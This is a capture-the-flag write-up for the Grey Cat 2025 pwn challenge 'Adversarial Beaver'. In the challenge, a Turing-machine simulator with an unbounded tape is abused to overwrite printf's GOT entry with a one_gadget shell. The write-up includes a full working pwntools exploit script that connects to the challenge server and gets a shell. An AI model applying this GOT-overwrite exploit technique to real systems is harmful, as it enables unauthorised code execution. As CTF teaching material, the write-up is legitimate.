



# Grey Cat The Flag Quals 2025 - Adversarial Beaver

## Setup
> It's so amazing how they [solved BB-5](https://www.youtube.com/watch?v=rmx3FBPzDuk).
>
> Let's see how well each team can do on BB-100!

Category: Pwn
Final solve count: 6
Final point value: 999
Solved by: Explosiontime202

## Overview

The challenge implements a simulator for a binary turing machine. It has at most `100` state and one HALT state, which always has id zero. All transitions can be specified by the user. The simulation calculates the number of steps taken before halting. To prevent infinite turing machines from running for ever, a 10 seconds timeout is implemented.

Every state has two transitions, one for every possible symbol ($\in \{0, 1\}$) at the current position on the tape. To denote a transition, the following notation based on Python tuples is used: `(symbol, direction, next_state)`
- symbol: The symbol put on the tape if the transition is taken.
- direction: Should the curser be moved to the **L**eft or the **R**ight.
- next_state: ID of the next state.
 

The tape of the machine is `10005` bytes long, but there are no bounds checks whatsoever. Thus, writing beyond and in front of the memory of the tape is possible. Funnily, a self-modifying turing machine would be possible.

The binary has the following security measures:
```
RELRO:      No RELRO
Stack:      Canary found
NX:         NX enabled
PIE:        PIE enabled
```

Everything is far so normal, except that there is no RELRO, which immediately points towards `.fini_array` or `.got` overwrites.

## Exploit

### Target

For this exploit the `printf` pointer in the GOT is the target because it will be used to print the score of the turing machine after it has halted. We want to overwrite it with a one gadget. To find that we used [david942j's one_gadget](https://github.com/david942j/one_gadget). It finds multiple gadget, but for only one the requirements are fulfilled.

```
0xebd3f execve("/bin/sh", rbp-0x50, [rbp-0x70])
constraints:
  address rbp-0x48 is writable
  rax == NULL || {rax, r12, NULL} is a valid argv
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL || [rbp-0x70] is a valid envp
```


### The search for GO~~D~~T

The tape is behind the GOT. So to overwrite it, we have to go to the left. To avoid changing anything important while traveling towards the GOT, every bit is replaced with itself. That could be achieved by the following transitions: `[(0, L, state + 1), (1, L, state + 1)]`

But we also need to stop. To do that, we choose a unique value before the GOT which always can be detected using the turing machine. For every bit of the value, we need one state, so the value should not be that too large or we run out of states.

##### ~~Wrong~~ Naive search_for construction

Let's start with the naive construction. Let the value have a length `l`. As we want to go to the left, have to start detecting at the MSB. In this section, talking about prefix and suffixes is in relation to the binary representation of the values and reading from MSB to LSB.

State $0 \leq k < l$ represents that a $k$ bit prefix of the value has been parsed and has transitions `[(0, L, bit == 0 ? (k + 1) : 0), (0, L, bit == 0 ? (k + 1) : 0)]`. That means if the correct bit to extend the prefix is parsed, we switch to the next state, else restart.

As mentioned, this is the naive version and naive is often wrong. So in this case. The construction does not work if a value is being parsed which also contains a (shorter) prefix of itself. For example, for value `0b10111`, when `0b101` has already been parsed and now a `0` would be the next bit on the tape, we would switch to the start state. But, `0b10` would be a valid prefix and we should switch to state 2. Finding that misconception took an awful long time...

You can see a diagram for the *wrong* construction below.

<figure>

<figcaption>Naive & wrong search_for construction</figcaption>
</figure>

##### Correct search_for construction

To fix that issue, we look for the longest suffix in the already parsed value which is a prefix to the value. In the above example, that would be the `0b10` (suffix from `0b1010` and prefix of `0b10111`). The corresponding transitions then are:  `[(0, L, bit == 0 ? (k + 1) : prefix_len), (0, L, bit == 0 ? (k + 1) : prefix_len)]`

You can see a diagram for the correct construction below. There is also the aforementioned transition from `q3` to `q2` instead of `q0` when reading a `0` from the tape.

<figure>

<figcaption>Correct search_for construction</figcaption>
</figure>

### Partial GOT Overwrite

To change the address in the GOT to our one gadget, we need to add a certain value. It might not be immediately obvious on how to do that, but a simple Carry-Ripple-Adder is the solution. By the nature of addition, the operation moves towards the right over the tape.

Let added value have a length of `l`. Then we have `l` states to represent the addition of bit `k` without carry and `l` states represent the addition of bit `k + 1` with carry.

Because we cannot have a carry for position `0`, that state does not exists. But as we can have a carry, for position `l` there are still `l` carry states.

The table below shows the states in use and the meaning assigned to them. Their function and transitions are explained below.

| State Index            | Assignment                      |
| ---------------------- | ------------------------------- |
| `[0, .., l - 1]`       | non-carry states                |
| `l`                    | final-state for non-carry route |
| `[l + 1, .., 2*l - 1]` | carry-states                    |
| `2*l`                  | infinite carry                  |
| `2*l + 1`              | final state                     |

For every non-carry state `k`, the transitions are: `[(bit, R, k + 1), (bit ^ 1, R, (bit == 1) ? (l + k + 1) : (k + 1))]`. So, if we read a zero bit, we just put down the bit at position `k` of our value. If we read a one, we put down the inverse (`^` is xor) of the bit because that's the result of addition with 1 modulo two. We transition to the carry-state `k` if `bit == 1`, else continue with the next non-carry state.

The final-state for the non-carries just transitions unconditionally to the final state.

For every non-carry state `0 < j < l`, the transitions are: `[(bit ^ 1, R, (bit == 0) ? (j + 1) : (l + j + 1)), (bit, R, l + j + 1)]`. When reading a `1`, we transition to the next carry state and put down the bit. When the tape contains a `0` at that position, we put down the inverse and transition to non-carry state `j` if `bit == 0`, else to the carry state `j`.

The carry state `l` has the following transitions: `[(1, R, 2 * l + 1), (0, R, 2 * l)]`. It performs the carry, as long as there are ones on the tape, and afterward transitions to the final state.

For example, adding `0x8b = 0b10001011` (notice: `l = 8`) results in the following state diagram.

<figure>

<figcaption>The upper states are the non-carry states and the lower states are the carry states. `q17` is the end state. </figcaption>
</figure>


### Putting it together

The actual value we've used to find the got is: `0x6f000007`
It is composed of the last three nibbles of the printf address which are constant even under ASLR and the highest 5 nibbles from the GOT entry before printf, which are also constant because how the linux address space is layouted.

Because we overshoot the actual position we are looking for, we have to go back for `5 * 4 + 1` (4 nibbles + we moved one too further) bits to the right.

The partial overwrite of the GOT entry *can* be split into two parts. The lower three nibbles of the address can simply be overwritten because they are not affected by ASLR. This would save a few states in the turing machine. But we actually have enough states to add the full offset. My original solution during the CTF implemented a version where this step was split.

`printf` is at offset `0x606f0` in the used libc. Thus, the offset from `printf` to the one gadget is `0x8b64f` and we can use our adding implementation to add that offset.

The last important step is to reach the `HALT` state because only then `printf` is called and we'll get the shell.

## Flag

`grey{congrats_on_solving_BB-100!}`

## Solve Script

```python
import enum
from pwn import *


class Dir(enum.StrEnum):
    Left = "L",
    Right = "R"


NUM_STATE = 100

transitions = []


def extract_bit(bit_idx: int, val: int, length: int, dir: Dir):
    """ 
      Extract a bit from the given value depending on the direction 
      - Left: Index 0 is MSB.
      - Right: Index 0 is LSB.
    """
    if dir == Dir.Left:
        return (val >> (length - 1 - bit_idx)) & 1
    else:
        return (val >> bit_idx) & 1


def search_for(val: int, length: int):
    """ 
      Search for a value on the tape while going to the left.
      Stops after the value.
    """
    global transitions
    search_start = len(transitions) + 1
    dir = Dir.Left
    for bit_idx in range(length):
        bit = extract_bit(bit_idx, val, length, dir)

        # check for prefixes:
        # we want to return to the state which represents the prefix even though
        # the current run failed

        prefix_start = search_start
        currently_parsed = (val >> (length - bit_idx)) << 1
        currently_parsed |= (bit ^ 1)
        for prefix_len in range(bit_idx, -1, -1):
            parsed_suffix = currently_parsed & ((1 << prefix_len) - 1)
            val_prefix = val >> (length - prefix_len)
            assert (dir == Dir.Left)
            if parsed_suffix == val_prefix:
                prefix_start = search_start + prefix_len
                break

        transitions += [
            ((0, dir, (len(transitions) + 2) if bit == 0 else prefix_start),
             (1, dir, (len(transitions) + 2) if bit == 1 else prefix_start))
        ]


def write_val(val: int, length: int, dir: Dir):
    """ Write a bit for bit onto the tape. """
    global transitions
    for bit_idx in range(length):
        bit = extract_bit(bit_idx, val, length, dir)
        transitions += [
            ((bit, dir, len(transitions) + 2),) * 2,
        ]


def add_val(val: int, length: int):
    """ Add a value to the tape. Goes to the Right on the tape. """
    global transitions
    dir = Dir.Right
    start_state = len(transitions) + 1
    # non-carry states
    for bit_idx in range(length):
        bit = extract_bit(bit_idx, val, length, dir)
        transitions += [((bit, dir, start_state + bit_idx + 1),
                         (bit ^ 1, dir, (start_state + length + bit_idx + 1) if bit == 1 else (start_state + bit_idx + 1)))]

    # just go to the end state of the operation
    transitions += [((0, dir, start_state + 2 * length + 1),
                     (1, dir, start_state + 2 * length + 1))]

    # carry-states
    for bit_idx in range(1, length):
        bit = extract_bit(bit_idx, val, length, dir)
        transitions += [(
                        (bit ^ 1, dir, (start_state + bit_idx + 1)
                         if bit == 0 else (start_state + length + bit_idx + 1)),
                        (bit, dir, start_state + length + bit_idx + 1)
                        )]
    # last carry & maybe infinite carries
    transitions += [((1, dir, start_state + 2 * length + 1),
                     (0, dir, (start_state + 2 * length)))]


def export_graphviz(trans, offset: int = 0) -> str:
    """ 
      Generates a representation for the transitions in the graphviz DOT language.
      Useful for debugging.

      `offset`: If `trans` is a subset of the transitions, adds constant offset to the loop index to find the state index. 
    """
    dot = ["digraph TuringMachine {", "  rankdir=LR;"]

    get_state = (lambda i: f"q{i}")

    for i, (t0, t1) in enumerate(trans):
        cur_state = get_state(offset + i)

        # Transition for tape symbol 0
        sym0, dir0, ns0 = t0
        next_state0 = get_state(ns0)
        label0 = f"0 → {sym0}, {dir0}"
        dot.append(f'  {cur_state} -> {next_state0} [label="{label0}"];')

        # Transition for tape symbol 1
        sym1, dir1, ns1 = t1
        next_state1 = get_state(ns1)
        label1 = f"1 → {sym1}, {dir1}"
        dot.append(f'  {cur_state} -> {next_state1} [label="{label1}"];')

    dot.append("}")
    return "\n".join(dot)


# goto printf@got
search_for(0x6f000007, 8 * 4)

# turn around
transitions += [(
    (0, Dir.Right, len(transitions) + 2 + k),
    (1, Dir.Right, len(transitions) + 2 + k)
) for k in range(5 * 4 + 1)]

# overwrite printf address with one_gadget address by adding offset
add_val(0x8b64f, len(bin(0x8b64f)) - 2)

# instead of the add_val above, one can do the following to safe a few states
# this is equivalent to the operation above because the lowest 12bit of an address are not affected by ASLR.
# write_val(0xd3f, 12, Dir.Right)
# add_val(0x8b, 8)

# padding, stop execution
transitions += [((0, Dir.Right, 0), (1, Dir.Right, 0))] * \
    (NUM_STATE - len(transitions))
assert (len(transitions) == NUM_STATE)

with remote("challs.nusgreyhats.org", 33103) as p:
    p.sendlineafter(
        b"Enter the number of states you require (Max 100): ", str(NUM_STATE).encode())

    p.recvuntil(b"Note: State 0 is reserved for the HALT state.\n")

    for state_idx in range(1, NUM_STATE + 1):
        # comment the following line in if you want to debug the transmission of states
        # commented out for performance reasons
        # p.recvuntil(f"State {state_idx}: ".encode())

        trans_1, trans_2 = transitions[state_idx - 1]

        def format_transition(transition):
            symbol, dir, next_s = transition
            dir = str(dir)
            assert (symbol == 0 or symbol == 1)
            assert (next_s <= NUM_STATE)

            return f"{symbol} {dir} {next_s}"

        p.sendline(
            " ".join([format_transition(trans_1), format_transition(trans_2)]).encode())

    p.recvuntil(b"Running your machine...\n")

    p.sendline(b"cat flag.txt")
    p.interactive()

```
